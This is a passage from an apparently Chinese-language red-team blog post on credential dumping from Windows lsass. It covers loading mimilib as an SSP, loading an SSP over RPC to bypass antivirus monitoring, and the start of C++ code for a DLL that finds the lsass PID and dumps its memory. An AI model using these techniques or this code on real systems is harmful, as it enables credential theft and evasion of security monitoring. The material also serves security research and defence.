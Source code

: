 ![1615543544172.png](https://i.loli.net/2021/03/27/rSx41WZYDa7gU62.png)

可以看到lsass进程加载了mimilib.dll：

![1615543443051.png](https://i.loli.net/2021/03/27/DldwTOUJGg4nWhr.png)


#### (3) 通过RPC加载SSP

> 优点：
> + 可以绕过杀软对lsass的监控
> + 可以加载mimilib来记录密码以应对版本大于等于Windows Server 2012的情况
> + 不需要重启服务器
> + 不需要写注册表
> 
> 缺点：
> + 因为没有写注册表，所以无法持久化，如果目标机器重启的话将无法记录密码（因此个人认为比较适合在Server上用，不适合在PC上用）



可以参考xpn关于mimikatz的系列文章：

[exploring-mimikatz-part-1](https://blog.xpnsec.com/exploring-mimikatz-part-1/)

[exploring-mimikatz-part-2](https://blog.xpnsec.com/exploring-mimikatz-part-2/)


原理简单的来讲就是，xpn发现`AddSecurityPackage()`在被调用时会使用RPC（xpn的原文中说到：这是有道理的，因为这一调用需要向lsass发出信号来表明需要加载新的SSP）

因此可以通过调试获取传递给RPC的数据，进而可以发起RPC调用，而不用使用`AddSecurityPackage()`这个API去调用


加载的dll可以是直接dump lsass的，也可以是加载mimilib这种记录密码的

![1586158896835.png](https://i.loli.net/2021/03/27/l57ZiWOAbNYfId8.png)


## 0x01 实现

一些Dump Lsass方法or技巧的简单实现，以及实战中的一些优化

### 1. 编写Dump Lsass的DLL

需要以下几步操作：

1. 获取Debug权限
2. 找到lsass的PID
3. 使用MiniDump或MiniDumpWriteDump进行内存dump

这个逻辑很简单，其中获取debug权限和自动寻找lsass的PID网上也有不少的Demo，所以很好实现

``` cpp
#include <stdio.h>
#include <Windows.h>
#include <tlhelp32.h>

typedef HRESULT(WINAPI* _MiniDumpW)(DWORD arg1, DWORD arg2, PWCHAR cmdline);

int GetLsassPid() {

	PROCESSENTRY32 entry;
	entry.dwSize = sizeof(PROCESSENTRY32);

	HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, NULL);

	if (Process32First(hSnapshot, &entry)) {
		while (Process32Next(hSnapshot, &entry)) {
			if (wcscmp(entry.szExeFile, L"lsass.exe") == 0) {
				return entry.th32ProcessID;
			}
		}
```